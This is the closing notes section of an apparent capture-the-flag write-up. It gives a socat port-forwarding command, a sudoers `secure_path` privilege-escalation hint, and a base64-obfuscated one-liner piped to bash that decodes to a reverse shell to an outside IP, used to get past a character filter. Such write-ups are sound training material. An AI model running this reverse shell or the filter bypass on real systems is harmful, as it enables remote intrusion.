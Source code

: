 * We could have used `socat` for the port forwarding :

  * ```
    /tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
    ```

* Always look if `secure_path` is set in `/etc/sudoers` I overlooked this and it was the key to getting root here

* Another way to bypass the `invalid characters` limitation when getting a shell is to encode our payload as `base64` and launch it using something like this:

  * ```
    echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjYuNjMvNDQ0NCAwPiYxCg== | base64 -d | bash
    ```

* The `creds*.txt` and `cipher.txt` were just rabbit holes... Made me loose quite some time..

* All in all, was a nice box, even tho I'm not a fan of bruteforcing password for entry. it's not a reflex for me since most boxes don't need bruteforcing but in the real world bruteforcing might be the only way so I guess that's a good rational to include bruteforcing in some boxes.

